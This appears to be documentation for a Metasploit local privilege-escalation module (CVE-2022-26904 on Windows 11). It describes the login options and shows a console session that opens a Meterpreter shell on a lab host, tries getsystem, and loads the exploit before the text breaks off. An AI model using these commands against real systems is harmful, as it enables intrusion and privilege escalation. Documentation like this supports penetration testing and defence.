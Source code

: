 ## Options

### LOGINUSER

The username of a valid user who has logged into the target system before and has a profile under `C:\Users` with their username in
`C:\Users\<username>.<domain>\` format if targeting a domain user or `C:\Users\<username>\` if targeting a local user account. This user
must not be an administrator or any account that would run with High integrity to ensure the UAC prompt appears as expected, and should ideally
be another normal user account that has permissions to log into the target computer.

### LOGINPASSWORD

The password for the LOGINUSER user.

### LOGINDOMAIN

The domain that the LOGINUSER belongs to and which we will log into.

## Scenarios

### Windows 11 Build 10.0.22000.556

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 172.19.78.176
RHOST => 172.19.78.176
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.19.78.176:4444
[*] Sending stage (200262 bytes) to 172.19.78.176
[*] Meterpreter session 1 opened (172.19.70.15:38009 -> 172.19.78.176:4444 ) at 2022-03-28 17:17:13 -0500

meterpreter > getuid
Server username: WIN11-TEST\normal
meterpreter > sysinfo
Computer        : WIN11-TEST
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : TESTINGDOMAIN
Logged On Users : 10
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_26904_superprofile
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_26904_superprofile) > show options

Module options (exploit/windows/local/cve_2022_26904_superprofile):

```